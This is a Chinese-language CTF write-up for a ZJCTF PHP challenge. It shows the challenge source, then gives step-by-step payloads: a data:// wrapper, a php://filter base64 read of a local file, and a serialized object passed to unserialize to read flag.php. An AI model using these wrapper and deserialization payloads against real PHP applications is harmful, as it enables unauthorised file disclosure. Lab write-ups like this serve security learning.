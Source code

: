 # 题目  
```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```  
- file_get_contents函数会将整个文件的内容读到一个字符串中
- preg_match用于查找是否用匹配的字符传，这里在文件中找是否又flag
- includ会在此处插入文件的内容  

# WP

1. 首先要text不为空且是指定内容才可以进行下一步，因为file_get_contents函数要传入一个文件的路径，这里用data伪协议给text传参  
```
?text=data://text/plain,welcome to the zjctf
```  
![alt text](image.png)  
2. 然后给file传值，如果file里面包含flag，就会直接退出，后面提示，file应该是useless.php,说明本地有一个useless.php的文件，并且需要插入这个地方，然后传入了，但是没什么用，得用伪协议  
```
file=php://filter/read=convert.base64-encode/resource=useless.php
```
![alt text](image-1.png)
3. 得到一下内容，用base64解密
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```  
解码后得到如下  
```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```  

4. 把Flag序列化后传值给passworld，序列化后为O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
passworld=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
传入参数为  
```
text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
![alt text](image-2.png)